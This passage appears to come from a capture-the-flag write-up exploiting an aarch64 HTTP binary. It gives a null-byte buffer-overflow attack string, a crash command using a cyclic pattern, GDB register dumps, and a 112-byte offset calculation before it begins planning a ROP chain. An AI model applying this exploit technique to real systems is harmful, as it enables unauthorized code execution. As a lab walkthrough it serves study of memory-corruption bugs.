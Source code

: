 There's no checking for `\0` in the `%` block.  By using a payload of `%\0buffer-overflow`, we can pass the `puVar4` length check above and overflow the buffer.

Attack string:

`GET /api/isodd/%\0payload`

To crash the system and find the distance to `x29` and `x30`:

```bash
echo -e "GET /api/isodd/%\x00$(cyclic 1000)" | qemu-aarch64 -g 9000 mra
```

GDB:

```
$x30 : 0x6261616562616164  →  0x6261616562616164
$sp  : 0x0000004000780a40  →  0x6261616362616162  →  0x6261616362616162
$pc  : 0x0061616562616164  →  0x0061616562616164
$cpsr: [negative ZERO CARRY overflow interrupt fast]
$fpsr: 0x0000000000000000  →  0x0000000000000000
$fpcr: 0x0000000000000000  →  0x0000000000000000
───────────────────────────────────────────────────────────────────────────────── stack ────
0x0000004000780a40│+0x0000: 0x6261616362616162  →  0x6261616362616162	 ← $sp
0x0000004000780a48│+0x0008: 0x6261616562616164  →  0x6261616562616164
0x0000004000780a50│+0x0010: 0x6261616762616166  →  0x6261616762616166
0x0000004000780a58│+0x0018: 0x6261616962616168  →  0x6261616962616168
0x0000004000780a60│+0x0020: 0x000000400078646a  →  0x0000000000000000  →  0x0000000000000000
0x0000004000780a68│+0x0028: 0x00000040007809d8  →  0x616161626161610a  →  0x616161626161610a
0x0000004000780a70│+0x0030: 0x000000000000002f  →  0x000000000000002f
0x0000004000780a78│+0x0038: 0x0000008c0000008a  →  0x0000008c0000008a
──────────────────────────────────────────────────────────────────────── code:arm64:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616562616164
```

Compute distance using the value from `x30`:

```
# echo 6261616562616164 | xxd -r -p | rev ; echo
daabeaab
# cyclic 1000 | sed 's/daabeaab.*//g' | wc -c
112
```

The last 8 bytes of our 112-byte payload will be the start of our ROP chain.


### Okay. Let's go shopping.

```
# man 2 syscall
...
...
...
       Arch/ABI    Instruction           System  Ret  Ret  Error    Notes
                                         call #  val  val2
       ───────────────────────────────────────────────────────────────────
       alpha       callsys               v0      v0   a4   a3       1, 6
       arc         trap0                 r8      r0   -    -
       arm/OABI    swi NR                -       a1   -    -        2
       arm/EABI    swi 0x0               r7      r0   r1   -
       arm64       svc #0                x8      x0   x1   -
...
...
...
       x86-64      syscall               rax     rax  rdx  -        5
```
